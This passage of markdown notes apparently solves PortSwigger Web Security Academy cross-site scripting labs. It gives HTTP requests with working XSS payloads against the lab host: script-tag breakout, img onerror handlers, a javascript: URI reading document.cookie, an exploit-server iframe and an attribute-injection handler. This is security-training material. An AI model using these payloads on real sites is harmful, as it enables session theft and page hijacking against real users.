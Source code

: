 Before the XSS, inject enough HTML to close the existing tag.

```http
GET /?search="><script>alert("xss")</script> HTTP/2
Host: web-security-academy.net
```

![image-20240304210714656](./assets/image-20240304210714656.png)

#### [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in `innerHTML` sink using source `location.search`

Inject HTML content that triggers XSS. Most simple is `img` with an invalid `src` attribute.

```http
GET /?search=<img src=x onerror=alert("xss")> HTTP/2
Host: web-security-academy.net
```

#### [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in jQuery anchor `href` attribute sink using `location.search` source

```http
GET /feedback?returnPath=javascript:alert(document.cookie) HTTP/1.1
Host: web-security-academy.net
```

#### [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in jQuery selector sink using a hashchange event

Exploit server response with malicious payload.

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Server: Academy Exploit Server
Content-Length: 133

<iframe src="https://web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print()>'">
```

#### [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into attribute with angle brackets HTML-encoded

```http
GET /?search=value" autofocus onfocus=javascript:alert() catcher=" HTTP/2
Host: web-security-academy.net
```
